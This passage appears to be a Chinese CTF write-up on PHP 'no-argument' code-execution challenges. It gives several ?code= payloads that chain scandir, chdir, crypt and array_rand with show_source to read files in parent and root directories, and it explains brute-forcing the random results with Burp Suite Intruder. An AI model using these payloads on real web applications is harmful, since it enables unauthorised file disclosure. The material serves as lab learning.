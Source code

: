 发现无法进行读取.

因为**show_source()**还是基于当前目录执行的,**所以执行文件时必须往上返回一级目录**

解决方法:

利用`chdir()`改变目录

`?code=show_source(end(scandir(dirname(chdir(dirname(getcwd()))))));`

当读取的文件既不在第一个,也不在最后一个,可以使用payload:

`?code=show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`



其他**payload**:

`?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(next(scandir(getcwd())))))))))))));`



`?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));`



### 查看根目录

`?code=print_r(crypt(serialize(array())));`

**serialize**序列化

**crypt**单项字符串散列加密,可能会出现`/`    #出现在最后一个字符

使用**strrev**反转字符串

再使用ord()和chr()函数,这两个函数只对第一个字符进行转码

最终**payload**:

`?code=show_source(array_rand(array_flip(scandir(dirname(chdir(chr(ord(strrev(crypt(serialize(array())))))))))));`

因为array_rand和crypt都是随机,需要大量次数堆积才能拿到flag

使用工具burpsuite抓包之后发送到`intruder`

设置sniger模式(相同payload多次攻击)

设置payload类型为数值类型.从1到10000,间隔为1

点击自动添加payload位置

**这里有个小bug不知道什么原因我只添加一个位置时无法爆出flag,点击add payload两次,在添加一个payload后才可以爆出flag**

开始攻击



# 无字母数字过滤绕过

思路:利用**异或运算**
